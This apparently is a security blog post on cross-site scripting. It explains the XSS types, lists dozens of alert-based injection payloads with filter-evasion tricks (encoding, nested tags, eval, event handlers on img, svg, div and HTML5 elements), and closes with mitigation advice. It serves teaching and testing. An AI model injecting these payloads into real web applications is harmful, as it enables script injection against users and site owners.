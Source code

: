 ```yaml
---
title: Cross-Site Scripting (XSS) Payloads and Mitigation Strategies
# author: Gauranga
date: 2024-04-21 16:50:00 +00:00
# categories: [Writing]
tags: [XSS, Cross-Site Scripting, Security Vulnerability, Web Applications, Injection Attacks, JavaScript, Vulnerability Mitigation]
pin: true
math: true
mermaid: true
image: https://blogdetectify.cdn.triggerfish.cloud/uploads/2015/12/04174531/What-is-Cross-site-Scripting-XSS-and-how-can-you-fix-it_.png
#   path: /commons/devices-mockup.png
#   lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
#   alt: Responsive rendering of Chirpy theme on multiple devices.
---
```


# Payloads for Cross-Site Scripting (XSS) Payloads

## Cross-Site Scripting (XSS)

Cross-Site Scripting (XSS) is a type of security vulnerability commonly found in web applications. It occurs when an attacker is able to inject malicious scripts (typically written in JavaScript) into web pages viewed by other users. This can happen when user input is not properly validated or sanitized by the application before being displayed to other users.

There are several types of XSS attacks:

1. **Stored XSS:** Also known as persistent XSS, this occurs when the injected script is permanently stored on the target server, such as in a database or a file. Whenever a user visits the affected page, the malicious script is executed.
2. **Reflected XSS:** In this type of attack, the injected script is reflected off the web server, such as in an error message or search result. The attacker typically tricks a victim into clicking on a specially crafted link that contains the malicious payload.
3. **DOM-based XSS:** This occurs when the client-side script modifies the DOM (Document Object Model) in an unsafe way, leading to a XSS vulnerability. Unlike traditional XSS attacks, DOM-based XSS does not involve the server-side code.

XSS attacks can have serious consequences, including:

- Theft of sensitive information such as cookies, session tokens, and login credentials.
- Manipulation of user sessions and actions.
- Defacement of websites.
- Distribution of malware to other users.
- Redirection to malicious websites.
- Compromise of user privacy.

## Vulnerability Details:

### XSS in HTML/Applications:

1. **Basic Payloads:**
    - `<script>alert('XSS')</script>`: Executes a simple JavaScript alert function.
    - `<scr<script>ipt>alert('XSS')</scr<script>ipt>`: Attempts to evade filters by using nested script tags.
    - `"><script>alert('XSS')</script>`: Injects a script tag within an HTML attribute.
    - `"><script>alert(String.fromCharCode(88,83,83))</script>`: Utilizes character encoding to obfuscate the alert message.
    - `<script>\\u0061lert('22')</script>`: Uses Unicode encoding to represent the script tag.
    - `<script>eval('\\x61lert(\\'33\\')')</script>`: Executes the alert using JavaScript's eval function.
    - `<script>eval(8680439..toString(30))(983801..toString(36))</script>`: Dynamically executes an alert by converting integers to strings.
    - `<object/data="jav&#x61;sc&#x72;ipt&#x3a;al&#x65;rt&#x28;23&#x29;">`: Uses HTML entity encoding to inject JavaScript.
2. **Img Payloads:**
    - `<img src=x onerror=alert('XSS');>`: Triggers an alert when the image fails to load.
    - `<img src=x onerror=alert('XSS')//`: Uses a comment to bypass filters.
    - `<img src=x onerror=alert(String.fromCharCode(88,83,83));>`: Uses character encoding for the alert message.
    - `<img src=x oneonerrorrror=alert(String.fromCharCode(88,83,83));>`: Repeats characters to evade detection.
    - `<img src=x:alert(alt) onerror=eval(src) alt=xss>`: Injects JavaScript through the alt attribute.
    - `"><img src=x onerror=alert('XSS');>`: Injects JavaScript within an HTML attribute.
3. **SVG Payloads:**
    - `<svgonload=alert(1)>`: Triggers an alert when the SVG loads.
    - `<svg/onload=alert('XSS')>`: Injects JavaScript within the onload attribute.
    - `<svg onload=alert(1)//`: Utilizes a comment to bypass filters.
    - `<svg/onload=alert(String.fromCharCode(88,83,83))>`: Uses character encoding for the alert message.
    - `<svg id=alert(1) onload=eval(id)>`: Dynamically executes the alert using the id attribute.
    - `"><svg/onload=alert(String.fromCharCode(88,83,83))>`: Injects JavaScript within an HTML attribute.
4. **Div Payloads:**
    - `<div onpointerover="alert(45)">MOVE HERE</div>`: Triggers an alert when the mouse pointer moves over the div element.
    - `<div onpointerdown="alert(45)">MOVE HERE</div>`: Triggers an alert when a pointer device button is pressed over the div.
    - `<div onpointerenter="alert(45)">MOVE HERE</div>`: Triggers an alert when the pointer enters the div element.
    - `<div onpointerleave="alert(45)">MOVE HERE</div>`: Triggers an alert when the pointer leaves the div element.
    - `<div onpointermove="alert(45)">MOVE HERE</div>`: Triggers an alert when the pointer moves within the div element.
    - `<div onpointerout="alert(45)">MOVE HERE</div>`: Triggers an alert when the pointer leaves the div element.
    - `<div onpointerup="alert(45)">MOVE HERE</div>`: Triggers an alert when a pointer device button is released over the div.

### XSS using HTML5 tags:

- **`<body onload=alert(/XSS/.source)>`**: Triggers an alert when the page loads.
- **`<input autofocus onfocus=alert(1)>`**: Triggers an alert when the input field gains focus.
- **`<select autofocus onfocus=alert(1)>`**: Triggers an alert when the select element gains focus.
- **`<textarea autofocus onfocus=alert(1)>`**: Triggers an alert when the textarea element gains focus.
- **`<keygen autofocus onfocus=alert(1)>`**: Triggers an alert when the keygen element gains focus.
- **`<video/poster/onerror=alert(1)>`**: Triggers an alert when the video fails to load.
- **`<video><source onerror="javascript:alert(1)">`**: Injects JavaScript within the source tag's onerror attribute.
- **`<video src=_ onloadstart="alert(1)">`**: Triggers an alert when the video begins to load.
- **`<details/open/ontoggle="alert\`**1`">`: Triggers an alert when the details element is toggled open.
- **`<audio src onloadstart=alert(1)>`**: Triggers an alert when the audio begins to load.
- **`<marquee onstart=alert(1)>`**: Triggers an alert when the marquee element starts scrolling.
- **`<meter value=2 min=0 max=10 onmouseover=alert(1)>2 out of 10</meter>`**: Triggers an alert when the mouse pointer is moved over the meter element.
- **`<body ontouchstart=alert(1)>`**: Triggers an alert when a touch event starts.
- **`<body ontouchend=alert(1)>`**: Triggers an alert when a touch event ends.
- **`<body ontouchmove=alert(1)>`**: Triggers an alert when a touch event moves.

## Recommendation:

To mitigate the risk of XSS attacks, the following recommendations are provided:

- Implement strict input validation mechanisms to filter out potentially malicious input.
- Utilize output encoding techniques (e.g., HTML entity encoding, JavaScript escaping) to render user-supplied data safely.
- Implement a Content Security Policy (CSP) to restrict the execution of inline scripts and mitigate XSS risks.
- Conduct regular security assessments, including code reviews and penetration tests, to identify and remediate vulnerabilities.
- Educate developers on secure coding practices to prevent the introduction of XSS vulnerabilities in future development efforts.

The identified XSS vulnerabilities pose a significant threat to the security. By exploiting these vulnerabilities, attackers could execute arbitrary JavaScript code within the context of users' browsers, leading to various security risks, including data theft and unauthorized access. It is imperative that immediate action is taken to address these vulnerabilities and implement the recommended mitigation strategies to safeguard the application against XSS attacks.